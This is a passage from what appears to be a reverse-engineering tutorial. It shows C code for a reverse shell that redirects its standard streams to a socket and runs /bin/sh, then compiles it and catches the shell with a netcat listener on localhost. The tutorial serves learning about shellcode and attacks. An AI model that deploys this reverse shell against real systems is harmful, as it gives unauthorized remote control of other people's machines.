         printf("Connection established with server\n");

        //Redirect stdin, stdout and stderr to that socket
        dup2(sock_fd, 0);
        dup2(sock_fd, 1);
        dup2(sock_fd, 2);

        //Execve system call to run a shell. 
        char *arg[2];
        arg[0] = "/bin/sh";
        arg[1] = NULL;

        
        execve(arg[0], arg, 0x00);
        
        close(sock_fd);

        return 0;
    }


1. Let us compile it and run it. 

        rev_eng_series/post_11$ gcc client.c -o client -m32 
        rev_eng_series/post_11$ ./client 127.0.0.1 5000
        Error: Unable to connect to server
        rev_eng_series/post_11$ ./client 127.0.0.1 10000
        Error: Unable to connect to server

    * It is not able to connect to server. This is because no such server is running. 
    
2. Let us use **netcat**(**nc**) to run a server.  

    * Before running netcat, come to the **root** directory of your system. Let us run the server from here. 

            /$ nc -l 127.0.0.1 -p 5000 -v
            Listening on [127.0.0.1] (family 0, port 5000)
    
    * Now, a server is running at IP Address = **127.0.0.1** and Port Number = 5000

3. Open up a new terminal and run the client program. 

        rev_eng_series/post_11$ ./client 127.0.0.1 5000
        Connection established with server

    * That is at the client side. We know the connection is established. Note that client is run from **rev_eng_series/post11** directory. 

    * The interesting part is at the server. If everything is gone right, then we would have a shell at the server side. Let us check it out. 

            /$ nc -l 127.0.0.1 -p 5000 -v
            Listening on [127.0.0.1] (family 0, port 5000)
            Connection from [127.0.0.1] port 5000 [tcp/*] accepted (family 2, sport 47722)
            ls
            client
            client.c
            executeme
            executeme.c
            shell32.asm 
            pwd
            /home/adwi/ALL/rev_eng_series/post_11
